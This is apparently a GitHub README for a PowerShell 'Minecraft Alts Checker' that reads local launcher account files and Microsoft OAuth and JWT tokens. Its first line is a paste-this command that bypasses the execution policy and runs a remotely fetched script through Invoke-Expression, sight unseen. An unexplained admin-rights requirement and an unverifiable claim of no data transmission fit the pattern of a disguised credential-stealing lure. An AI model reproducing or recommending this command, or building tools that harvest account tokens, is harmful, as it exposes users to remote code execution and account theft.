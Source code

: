 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

**🛠️ Minecraft Alts Checker Tool**
A PowerShell utility for analyzing Minecraft accounts stored locally by various launchers, with JWT token decoding capabilities.

🔍 **Features**

 - **Account Analysis**
   - View locally stored Minecraft accounts from:
      - TLauncher
      - Official Minecraft Launcher
   - Detect Microsoft OAuth tokens (`accessToken/id_token`)
   - JWT token decoding with claims inspection

 - **Forensic Capabilities**
   - Parses these key files:
      - `%APPDATA%\.minecraft\TlauncherProfiles.json`
      - `%APPDATA%\.minecraft\launcher_accounts.json`
      - `%APPDATA%\.minecraft\usernamecache.json`
      - `%APPDATA%\.minecraft\usercache.json`

📋 **Account Information Display**

 - For each found account, shows:
   - Username
   - UUID
   - Account type
   - Microsoft token presence (✅/❌)
   - Decoded JWT claims (when available)

🔐 **JWT Decoding**

 - The built-in Decode-Jwt function:
   - Accepts JWT tokens (`accessToken or id_token`)
   - Splits and base64-decodes the payload
   - Returns readable JSON claims in table format

⚠️ **Requirements**

 - Windows PowerShell 5.1+
 - Administrative privileges (for deleted file search)
 - Minecraft/TLauncher installation

📜 **Legal Notice**

 - This tool is intended solely for personal use and debugging purposes. It must not be used to:
   - Violate any terms of service
   - Access unauthorized accounts
   - Conduct illegal activities
 - **The author disclaims all responsibility for misuse of this software.**

🛡️ **Security Note**

 - The script:
   - Runs locally without external data transmission
   - Requests minimal necessary permissions
   - Provides transparent account inspection

***`Not affiliated with Mojang Studios or Microsoft. Minecraft is a trademark of Mojang Studios.`***

